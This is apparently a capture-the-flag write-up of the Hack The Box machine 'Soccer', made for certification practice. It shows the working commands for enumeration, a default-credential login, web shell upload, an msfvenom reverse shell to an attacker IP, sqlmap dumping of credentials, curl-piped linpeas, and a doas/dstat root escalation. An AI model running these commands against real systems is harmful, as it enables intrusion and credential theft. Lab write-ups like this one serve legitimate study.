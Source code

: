 ```yaml
---
layout: post
title: "Soccer"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate all the ports with rustcan and nmap:

```bash
rustscan -a 10.129.126.18

nmap -sC -sV -p22,80,9091 10.129.126.185 -oA nmap/soccer

result:
port 80 nginx 1.18.0
port 22
port 9091 xmltec-xmlmail
```

Add domain soccer.htb to /etc/hosts

Let’s enumerate subdomains and subdirectories

```bash
ffuf -u http://soccer.htb -H "Host: FUZZ.soccer.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 6

gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

![image.png](/assets/soccer/image.png)

In burp we look at the GET response from the server we find the version of the tiny explorer. Now let’s research some exploit. We find RCE  exploit: https://github.com/febinrev/tinyfilemanager-2.4.3-exploit

Let’s first try to login with default credentials. We search on Google default tiny manager credentials and result in admin:admin@123. We are in

We clone the exploit to our host and exploit the target:

```bash
./exploit.sh http://soccer.htb/tiny/tinyfilemanager.php admin \"admin@123\"
python3 tiny_file_manager_exploit.py http://soccer.htb/tiny/tinyfilemanager.php admin \"admin@123\"
```

The exploit doesn’t seem to be working. Let’s just do it manually. Click upload and upload phpbash.php.

```bash
Navigating to the uploads folder ([http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload](http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload)), we add phpbash.php. We visit http://soccer.htb/tiny/uploads/phpbash.php
```

We have access to user www-data

Let’s upload a reverse shell for stable connection:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.118 LPORT=443 -f raw > shell.php

#edit the file so the file start with <?php and end with ?>
```

```bash
#start metasploit for listener
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.10.14.118
set LPORT 443
run

#When we get the shell:
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let’s start trying to find credentials in config files etc

```bash
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

We know the server uses nginx for the web server, let’s check that

```bash
In the /etc/nginx/sites-available folder we find another site:

$ ls -al
ls -al
total 16
drwxr-xr-x 2 root root 4096 Dec  1  2022 .
drwxr-xr-x 8 root root 4096 Nov 17  2022 ..
-rw-r--r-- 1 root root  442 Dec  1  2022 default
-rw-r--r-- 1 root root  332 Nov 17  2022 soc-player.htb

#and catting it out:
soc-player.soccer.htb
```

Let’s add that to /etc/hosts

Let’s enumerate that

```bash
gobuster dir -u http://soc-player.soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

There is a ticket searching function in /check let’s try to SQL inject it.

Using burp to capture the traffic when inputting a ticket number and pressing enter, the website communicates with a web socket at ws://soc-player.soccer.htb:9091. Let’s use sqlmap to test different injection techniques

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5    #asterisks tells sqlmap where to inject, risk 3 and level 5 the highest

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 --dbs

```

![image.png](/assets/soccer/image%201.png)

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db --tables

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db -T accounts --columns

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db -T accounts -C email,id,password,username --dump
```

We have found a user credential

Let’s login as user player. Not much is on the website, let’s try to ssh. We are in.

## Linepeas

- in the dir where [linpeas.sh](http://linpeas.sh) is, start a python server

```bash
python3 -m http.server 1234
```

- then on the target server connect to it and pipe it to bash

```bash
curl 10.10.14.118:1234/linpeas.sh | bash
```

- Alwasy check /usr/local, or /usr/local/bin. This is where admin put binaries specifically
- also check special permssions other than sudo

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

- Now try and find config for that binary

```bash
find / 2>/dev/null | grep doas

result:
/usr/local/etc/doas.conf

cat /usr/local/etc/doas.conf

result:
permit nopass player as root cmd /usr/bin/dstat
```

Now we go to GTFObin and dstat to see how we can escalate our privilege to root

```bash
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_xxx.py

doas /usr/bin/dstat --xxx  #now we have root shell
whoami

af395ba322ed65992418eb6f9fb587a6
```